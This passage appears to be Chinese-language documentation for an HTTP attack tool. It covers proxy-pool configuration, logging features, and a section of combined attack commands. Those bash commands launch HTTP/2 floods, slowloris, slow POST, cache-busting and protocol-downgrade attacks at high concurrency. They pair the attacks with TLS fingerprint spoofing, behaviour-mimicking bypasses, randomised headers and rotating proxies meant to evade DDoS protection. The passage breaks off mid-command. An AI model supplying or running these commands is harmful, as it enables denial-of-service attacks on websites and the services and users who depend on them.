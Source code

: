 ### 5.2 配置文件格式
```json
// config/api.json
{
    "pool1": [
        "https://api1.example.com",
        "https://api2.example.com"
    ],
    "pool2": [
        "https://api3.example.com",
        "https://api4.example.com"
    ]
}
```

### 5.3 特性：

- 支持五个日志级别：DEBUG、INFO、WARN、ERROR、FATAL
- 可配置是否显示调用者信息（文件名和行号）
- 可配置是否显示彩色输出（仅在终端中有效）
- 可自定义时间格式
- 日志级别过滤（低于设置级别的日志不会输出）
- 支持从字符串解析日志级别
- 线程安全

## 6. 攻击模式组合

### 6.1 基础组合攻击
```bash
# HTTP/2 + TLS绕过 + 代理
./http-tool -url "https://example.com" \
  -attack http2flood \
  -bypass "tls,protocol" \
  -fp chrome \
  -proxy-type local \
  -c 1000

# 慢速攻击 + 行为模拟
./http-tool -url "https://example.com" \
  -attack slowloris \
  -bypass "behavior" \
  -delay "100-500" \
  -headers "Cookie:%RANDSTR%" \
  -c 500
```

### 6.2 高级组合攻击
```bash
# 多层防护绕过
./http-tool -url "https://example.com" \
  -attack "http2flood,slowpost" \
  -bypass "tls,behavior,protocol" \
  -fp firefox \
  -delay "50-200" \
  -headers "X-Forwarded-For:%XFF%;User-Agent:%UA%" \
  -proxy-type api \
  -proxy-pool pool1 \
  -proxy-failover

# 缓存层击穿 + 协议降级
./http-tool -url "https://example.com/%RANDSTR%" \
  -attack "cache-bust,protocol-downgrade" \
  -method "PURGE,GET" \
```